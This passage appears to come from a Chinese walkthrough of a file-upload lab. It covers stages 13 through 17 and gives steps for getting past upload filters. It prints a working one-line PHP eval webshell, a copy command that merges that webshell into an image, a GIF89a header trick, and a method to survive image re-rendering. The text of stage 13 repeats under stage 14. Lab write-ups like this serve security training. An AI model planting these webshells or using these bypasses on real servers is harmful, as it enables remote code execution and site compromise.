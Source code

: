 使图片文件和木马文件在一个文件夹下，在此文件夹下打开 cmd

合并生成新文件

```
G:\>copy xuegod.jpg/b + webshell.php/a hello.jpg
```

> 此时生成的 hello.jpg 含有 webshell.php 的代码

上传 `hello.jpg` 即可

### 2.13.2 方法二 文件标识头绕过

在 `webshell.php` 中的首部插入 GIF 的文件标识头 `GIF89a` ，如下

```
GIF89a
<?php @eval($_POST[xuegod]);?>
```

> GIF89a 表示此文件为 GIF 文件，上传即可

### 2.14 Pass-14

此关无法利用，仅绕过

### 2.14.1 方法一 图片马绕过

使图片文件和木马文件在一个文件夹下，在此文件夹下打开 cmd

合并生成新文件

```
G:\>copy xuegod.jpg/b + webshell.php/a hello.jpg
```

> 此时生成的 hello.jpg 含有 webshell.php 的代码

上传 `hello.jpg` 即可

### 2.14.2 方法二 文件标识头绕过

在 `webshell.php` 中的首部插入 GIF 的文件标识头 `GIF89a` ，如下

```
GIF89a
<?php @eval($_POST[xuegod]);?>
```

> GIF89a 表示此文件为 GIF 文件，上传即可
>
> 仅可上传 GIF

### 2.16 Pass-16 二次渲染绕过

准备一张 GIF 图片上传至目标服务器，再将服务器保存的图片下载到本地，用 Hex Editor 对比两个文件，将代码插入到没有变化的位置，重命名后上传即可

### 2.17 Pass-17 条件竞争
